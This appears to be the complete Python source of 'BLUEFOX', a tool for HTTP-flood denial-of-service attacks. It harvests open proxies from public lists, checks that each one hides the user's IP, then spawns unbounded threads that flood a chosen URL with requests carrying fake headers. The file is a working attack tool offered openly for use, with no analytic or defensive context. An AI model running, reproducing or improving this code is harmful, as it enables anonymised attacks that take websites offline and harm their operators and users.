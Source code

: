 # AOA-CBA-FB
BLUEFOX
import requests as r, os, threading, random, click, fake_headers, time
from threading import Thread
from colorama import Fore, Style, Back
from fake_headers import Headers
version = '1.0 v'

iphosts = [
    'https://wtfismyip.com/text',
    'https://ipinfo.io/ip',
    'https://ipv4.icanhazip.com/',
    'https://myexternalip.com/raw',
    'https://ifconfig.io/ip',
    'https://ipecho.net/plain'
]

global myip
myip = r.post(random.choice(iphosts)).text

class bcolors:
        OKGREEN = '\033[92m'
        WARNING = '\033[0;33m'
        FAIL = '\033[91m'
        ENDC = '\033[0m'
        LITBU = '\033[94m'
        YELLOW = '\033[3;33m'
        CYAN = '\033[0;36'
        colors = ['\033[92m', '\033[91m', '\033[0;33m']
        RAND = random.choice(colors)


def clear():
        if os.name == 'nt':
                os.system('cls')
        else:
                os.system('clear')

def logo():
        import pyfiglet 
        logoo = pyfiglet.figlet_format("BLUEFOX")
        print(bcolors.FAIL+logoo)
        print('')
        print(bcolors.WARNING + '               .:.: Developer: TAKEMICHI ~ @Q_2_M :.:.')
        print(bcolors.WARNING + '            .:.:          ♡Free♡Palestine♡          :.:..')
        print(bcolors.WARNING + '         .:.:               Version:'+version+'              :.:.')
        print('')

def check_prox(array, url):
        #myip = r.post(random.choice(iphosts)).text
        for prox in array:
                t = threading.Thread(target=check, args=(myip, prox, url))
                t.start()

def check(myip, prox, url):
        try:
                ipx = r.get(random.choice(iphosts), proxies={'http': "http://{}".format(prox), 'https':"http://{}".format(prox)}).text
                if ipx == myip:
                        pass
                else:
                        print(Fore.BLACK+Back.GREEN+"{} good proxy".format(prox)+Style.RESET_ALL)
                        t = threading.Thread(target=ddos, args=(prox, url))
                        t.start()
        except:
                pass

def ddos(prox, url):
        proxies={"http":"http://{}".format(prox), "https":"http://{}".format(prox)}
        colors = ["\x1B[31m", "\x1B[32m", "\x1B[33m", "\x1B[34m", "\x1B[35m", "\x1B[36m", "\x1B[37m"]
        color = random.choice(colors)
        while True:
                headers1 = Headers(headers=True).generate()
                t = threading.Thread(target=start_ddos, args=(prox, url, headers1, proxies, color))
                t.start()

def start_ddos(prox, url, headers1, proxies, color):
        try:
                s1 = r.Session()
                req1 = s1.get(url, headers=headers1, proxies=proxies)
                if req1.status_code == 200:
                        if req1.status_code == 404:
                                pass
                        else:
                                print(color+"{} sent requests...".format(prox))
        except:
                pass

@click.command()
@click.option('--proxy', '-p', help="<File with a proxy>")
@click.option('--url', '-u', help="<URL>")
def main(proxy, url):
        clear()
        logo()
        if url == None:
                print(bcolors.LITBU + "Enter the full URL example: https://google.com")
                url = input(bcolors.LITBU + "URL site: ")
        if url[:4] != "http":
                print(Fore.RED+"Enter the full URL (example: https://google.com/)"+Style.RESET_ALL)
                exit()
        if proxy == None:
                while True:
                        req1 = r.get("https://api.proxyscrape.com/v2/?request=displayproxies").text
                        req2 = r.get("https://raw.githubusercontent.com/mertguvencli/http-proxy-list/main/proxy-list/data.txt").text
                        req3 = r.get("https://raw.githubusercontent.com/officialputuid/KangProxy/KangProxy/http/http.txt").text
                        req4 = r.get("https://raw.githubusercontent.com/UptimerBot/proxy-list/master/proxies/http.txt").text
                        req5 = r.get("https://raw.githubusercontent.com/roosterkid/openproxylist/main/HTTPS_RAW.txt").text
                        req6 = r.get("https://raw.githubusercontent.com/yuceltoluyag/GoodProxy/main/raw.txt").text
                        req = req1 + req2 + req3 + req4 + req5 + req6
                        array = req.split()
                        print(Back.YELLOW+Fore.WHITE+"Found {} new proxies".format(len(array))+Style.RESET_ALL)
                        check_prox(array, url)
        else:
                try:
                        fx = open(proxy)
                        array = fx.read().split()
                        print("Found {} proxies in {}.\nChecking proxies...".format(len(array), proxy))
                        check_prox(array, url)
                except FileNotFoundError:
                        print(Fore.RED+"File {} not found.".format(proxy)+Style.RESET_ALL)
                        exit()

main()
